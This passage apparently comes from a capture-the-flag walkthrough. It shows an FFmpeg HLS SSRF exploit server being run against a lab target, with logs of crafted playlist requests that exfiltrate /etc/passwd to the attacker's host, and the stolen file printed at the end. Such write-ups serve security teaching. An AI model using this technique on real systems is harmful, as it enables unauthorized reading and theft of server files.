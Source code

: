 

Now I start the server, and upload the file. It dumps a lot of junk to
the screen and eventually crashes:



    oxdf@hacky$ python /opt/FFmpeg-HLS-SSRF/server.py --port 80 --external-addr 10.10.14.6

    2022-07-28 12:23:02,423 INFO ('10.10.11.157', 50632): client connected
    2022-07-28 12:23:02,424 WARNING ('10.10.11.157', 50632): request data b'GET /initial.m3u?filename=/etc/passwd HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6\r\nIcy-MetaData: 1\r\n\r\n'                                        2022-07-28 12:23:02,424 INFO ('10.10.11.157', 50632): got request b'/initial.m3u?filename=/etc/passwd'

    b'HTTP/1.0 200 OK\r\nContent-Length: 162\r\n\r\n#EXTM3U\n#EXT-X-MEDIA-SEQUENCE:0\n#EXTINF:1.0\n\nhttp://10.10.14.6:80/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true\n\n\n#EXT-X-ENDLIST\n'                                                    
    2022-07-28 12:23:02,602 INFO ('10.10.11.157', 50634): client connected
    2022-07-28 12:23:02,603 WARNING ('10.10.11.157', 50634): request data b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1
    \r\n\r\n'
    ...[snip]...
    2022-07-28 12:23:27,882 INFO ('10.10.11.157', 50916): got request b'/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data='
    2022-07-28 12:23:27,883 ERROR ('10.10.11.157', 50916): exception during processing request, data = b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data= HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1\r\n\r\n'
    Traceback (most recent call last):
      File "/opt/FFmpeg-HLS-SSRF/server.py", line 196, in handle_client
        response = self._handlers[requested_file](params, file_data)
      File "/opt/FFmpeg-HLS-SSRF/server.py", line 105, in save_data
        raise RuntimeError('num_retry > 10')
    RuntimeError: num_retry > 10



But now there's a file that has `passwd` in it:



    oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd 
    root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nologintss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falseusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:112:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinuser:x:1000:1000:user:/home/user:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falsemongodb:x:113:118::/var/lib/mongodb:/usr/sbin/nologin
